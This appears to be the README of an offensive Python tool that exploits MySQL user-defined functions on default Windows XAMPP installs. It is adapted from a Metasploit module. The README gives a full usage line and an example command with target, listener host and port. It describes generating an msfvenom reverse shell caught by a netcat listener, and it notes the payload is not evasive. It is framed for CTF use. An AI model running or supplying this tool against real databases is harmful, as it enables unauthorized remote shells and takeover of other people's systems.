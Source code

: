 # Windows/MySQL: Abusing user-defined functions
A loose adaptation of Metasploit's exploit/multi/mysql/mysql_udf_payload.  

    Note: run a netcat listener and set up a web server in the current directory before running.
    usage: mysql_udf.py [-h] [-r RHOST] -u USER -p PASSWORD [-a ARCHITECTURE] -l LHOST -lp LPORT

    e.g. python3 mysql_udf.py -r 10.10.10.10 -u test -p testuser -a x64 -l 10.10.10.11 -lp 4444
    
This is currently configured to exploit the default xampp install of MySQL on Windows (i.e. with secure_file_priv disabled.) I'd like to add some more options for other installations or the ability to change writable directories etc in case the default plugin dir isn't writable. Also, this uses msfvenom to generate the reverse shell without any encoders so naturally it'll light Defender up like a Christmas tree. Still, if you need a CTF-ready automation of basically [this procedure](https://book.hacktricks.xyz/pentesting/pentesting-mysql#privilege-escalation-via-library), this should work. 
